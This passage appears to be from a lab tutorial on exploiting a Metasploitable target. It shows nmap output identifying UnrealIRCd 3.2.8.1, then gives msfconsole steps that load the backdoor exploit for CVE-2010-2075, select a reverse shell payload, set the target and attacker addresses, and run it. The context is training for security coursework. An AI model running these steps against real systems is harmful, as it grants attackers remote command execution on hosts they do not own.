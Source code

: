 ```
root@outer2:~# nmap -p 6667 --script irc-info metasploit
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-30 10:11 EST
Nmap scan report for metasploit (192.168.100.3)
Host is up (0.000023s latency).

PORT     STATE SERVICE
6667/tcp open  irc
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.Metasploitable.LAN
|   version: Unreal3.2.8.1. irc.Metasploitable.LAN 
|   uptime: 1 days, 17:41:43
|   source ident: nmap
|   source host: CAC88821.2ADA0512.FFFA6D49.IP
|_  error: Closing Link: gwscbkono[192.168.100.102] (Quit: gwscbkono)
MAC Address: 02:42:C0:A8:64:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.16 seconds
root@outer2:~# 
```

The version is listed there: `version: Unreal3.2.8.1`.  As it turns out, there is a vulnerability with that version of UnrealIRCd: [CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075).

Now, in `msfconsole`, we can search for an exploit for that version of UnrealIRCd.  Below are the commands to enter, and commentary on them, but the output is not shown here.  You should run this on one of the outer? Docker containers.  To start, run `msfconsole` from the command line.  Enter the following commands below, so that you understand what is going on, and so that you can see the output.

- `search unrealircd`: this finds all the exploits (only one) for that application.  We would need to verify that the version numbers match, and in this case they do -- port 6667 on *metasploit* is running version 3.2.8.1, which is what the one and only exploit uses.
  - Note from the output that the module name is `exploit/unix/irc/unreal_ircd_3281_backdoor`, and the module description is `UnrealIRCD 3.2.8.1 Backdoor Command Execution`; this will become relevant below.
- `use 0`: use the exploit by the number displayed.
- `info`: shows information about the loaded module, including the variables that can be set.
  - Notice that `RHOSTS` is required, but not yet set.
- `show options`: shows just the variables that can be set, and not the rest of the information.
  - As above, notice that `RHOSTS` is required, but not yet set.
- `set rhosts metasploit`: set the target node to exploit.
- `exploit`: run the exploit
  - Well, that didn't work.  Notice the output: `Exploit failed: A payload has not been selected`
- `show payloads`: these are the compatible payloads for this attack.  We'll pick the `payload/cmd/unix/reverse` one, which is listed as number 6.
- `set payload 6`: select the payload to use from the list just displayed.
- `exploit`: run the exploit
  - Well, that didn't work.  Notice the output: `The following options failed to validate: LHOST`
- `show options`: show the options again
  - Notice that `LHOST` is required, but not set
- `set lhost 192.168.100.102`: this needs to be set to the (non-localhost) IP address of the machine we are running the exploit on.
- `exploit`: it works!

